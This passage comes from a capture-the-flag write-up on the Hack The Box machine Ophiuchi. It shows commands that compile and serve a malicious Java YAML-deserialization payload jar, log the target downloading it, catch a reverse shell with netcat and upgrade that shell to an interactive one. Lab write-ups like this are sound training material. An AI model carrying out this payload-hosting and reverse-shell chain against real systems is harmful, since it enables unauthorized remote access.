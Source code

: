 
Compiled and hosted the payload once again:
```bash
┌──(kali㉿kali)-[~/…/box/Ophiuchi/exploit/yaml-payload]
└─$ javac src/artsploit/AwesomeScriptEngineFactory.java
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true

┌──(kali㉿kali)-[~/…/box/Ophiuchi/exploit/yaml-payload]
└─$ jar -cvf yaml-payload.jar -C src/ .
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
added manifest
adding: artsploit/(in = 0) (out= 0)(stored 0%)
adding: artsploit/AwesomeScriptEngineFactory.java(in = 1563) (out= 431)(deflated 72%)
adding: artsploit/AwesomeScriptEngineFactory.class(in = 1635) (out= 692)(deflated 57%)
ignoring entry META-INF/
adding: META-INF/services/(in = 0) (out= 0)(stored 0%)
adding: META-INF/services/javax.script.ScriptEngineFactory(in = 36) (out= 38)(deflated -5%)

┌──(kali㉿kali)-[~/…/box/Ophiuchi/exploit/yaml-payload]
└─$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.227 - - [02/May/2021 16:14:01] "GET /yaml-payload.jar HTTP/1.1" 200 -
10.10.10.227 - - [02/May/2021 16:14:01] "GET /yaml-payload.jar HTTP/1.1" 200 -
```

Executed the second stage on the target machine and obtained the reverse shell:
![Pasted image 20210502221717.png]({{page.screenshots}}Pasted image 20210502221717.png)
```bash
┌──(kali㉿kali)-[~/CTFs/HTB/box/Ophiuchi]
└─$ sudo nc -nlvp 10099
listening on [any] 10099 ...
connect to [10.10.14.24] from (UNKNOWN) [10.10.10.227] 53984
bash: cannot set terminal process group (831): Inappropriate ioctl for device
bash: no job control in this shell
tomcat@ophiuchi:/$ id
id
uid=1001(tomcat) gid=1001(tomcat) groups=1001(tomcat)
tomcat@ophiuchi:/$ which python3
which python3
/usr/bin/python3
tomcat@ophiuchi:/$ python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
tomcat@ophiuchi:/$ ^Z
zsh: suspended  sudo nc -nlvp 10099

┌──(kali㉿kali)-[~/CTFs/HTB/box/Ophiuchi]
└─$ stty raw -echo; fg

[1]  + continued  sudo nc -nlvp 10099

tomcat@ophiuchi:/$ export TERM=xterm
```
